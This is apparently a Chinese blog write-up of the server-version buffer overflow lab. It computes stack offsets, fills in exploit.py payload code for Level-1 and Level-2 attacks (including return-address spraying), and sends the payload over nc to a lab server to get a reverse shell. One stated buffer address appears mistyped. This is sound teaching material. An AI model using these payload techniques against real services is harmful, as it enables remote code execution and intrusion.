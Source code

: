 通过 `nc` 指令可以得到buffer的地址为0xffff728，返回地址的地址为0xffffd798+0x4。返回地址和buffer的地址的差才116个byte，那么就说明shellcode如果放在return address前边就一定会被return address覆盖掉4个byte。所以把它放在return address后边就好了。

![Screenshot 2024-04-03 at 2.51.35 AM.png](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Screenshot_2024-04-03_at_2.51.35_AM.png)

所以补全‘exploit.py’如下：

```python
##################################################################
# Put the shellcode somewhere in the payload
start = 128             # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffd7a8     # Change this number
offset = 116            # Change this number

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
##################################################################
```

`start` 设置为一个大于116的数， `ret` 设置为buffer的地址加上 `start` 。 `offset` 就是返回地址的地址和buffer的地址的差，这样才能把放回地址覆盖掉。

最后利用 `cat badfile | nc 10.9.0.5 9090` 攻击成功反弹shell：

![Screenshot 2024-04-03 at 2.53.54 AM.png](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Screenshot_2024-04-03_at_2.53.54_AM.png)

这里我突然意识到一个比较巧妙的地方，数组存放地址的方向与指令的存放顺序相同，与栈增长相反，所以我们不需要把shellcode反过来。

# Task 3: Level-2 Attack

可以看到没有返回地址的地址，所以只能猜。文档中提示说buffer size是100到300，所以把shellcode放到304以外的地方，然后把100到300中的所有地方都写上修改后的返回地址即可。

![Screenshot 2024-04-03 at 3.16.06 AM.png](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Screenshot_2024-04-03_at_3.16.06_AM.png)

代码如下：

```python
##################################################################
# Put the shellcode somewhere in the payload
start = 304             # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffd808     # Change this number

# Use 4 for 32-bit address and 8 for 64-bit address
for offset in range(100, 304, 4):
    content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
##################################################################
```
